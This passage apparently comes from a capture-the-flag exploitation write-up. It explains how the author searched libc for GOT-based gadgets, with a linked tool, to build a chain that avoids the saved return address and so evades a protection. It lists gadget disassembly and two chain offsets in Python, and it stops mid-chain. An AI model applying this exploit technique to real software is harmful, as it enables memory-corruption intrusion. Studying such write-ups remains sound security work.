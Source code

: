 ### Finding the Gadgets

This is where the creativity comes in play as theres probably a ton of ways to chain these gadgets together as there are quiet a lot. I wrote a tool that acts like `ROPgadget` but specifically for these `libc got gadgets`. [https://github.com/thisusernameistaken/LibcGOTchain](https://github.com/thisusernameistaken/LibcGOTchain)

Generating a list of gadgets and then just searching the file for the behavior I want was easy with the binja script. For example, I was looking for a gadget that would set `rdi` to a stack pointer that was close to my current frame, so i searched `lea  rdi, [rsp+` and here are some of the results. (I indented the one I chose to use.)

```c
0xe24a6: mov  rdx, r13; mov  rdi, r15; call jump_memcpy; 
0xe290d: mov  rdx, r13; mov  rdi, r15; call jump_memcpy; 
0x16f9ee: mov  rsi, r11; mov  qword [rsp+0x18], rcx; mov  dword [rsp+0x10], r10d; call jump_memcpy; 
	*0xec84e: lea  rdi, [rsp+0xf]; mov  rdx, r8; mov  rsi, r12; and  rdi, 0xfffffffffffffff0; call jump_memcpy;*
0xee373: mov  rsi, r15; mov  rdi, r14; call jump_mempcpy; mov  rdx, qword [rbp-0x2e8]; mov  rsi, r13; mov  byte [rax], 0x2f; lea  rdi, [rax+0x1]; call jump_memcpy; 
0xedbb6: mov  rsi, qword [rsp+0x10]; mov  rdx, rbp; mov  rdi, rax; call jump_mempcpy; mov  rdx, r12; mov  rsi, r13; mov  byte [rax], 0x2f; lea  rdi, [rax+0x1]; call jump_memcpy; 
0x1050a9: mov  rsi, qword [r12+0x8]; mov  rdx, r13; mov  rdi, rax; lea  r12, [rsp+0x60]; call jump_memcpy; 
```

The chain I went with is the following:

#### lea_rdi_rsp

```python
lea_rdi_rsp = libc.address+0xec84e
'''
000ec84e 488d7c240f lea rdi, [rsp+0xf]
000ec853 4c89c2 mov rdx, r8
000ec856 4c89e6 mov rsi, r12
000ec859 4883e7f0 and rdi, 0xfffffffffffffff0
000ec85d e8bebdf3ff call jump_memcpy
'''
```

The first gadget of the chain which gets called from `strlen` will set `rdi` to a stack pointer that is above the "saved return address" to make sure and not corrupt that and trigger the jail.

#### double_call_gets

```python
double_call_gets = libc.address+0x1187f2
'''
001187f2 e839fcf0ff call jump_memmove
001187f7 be2f000000 mov esi, 0x2f
001187fc 4c89ef mov rdi, r13
001187ff e8ecfdf0ff call jump_strrchr
'''
```
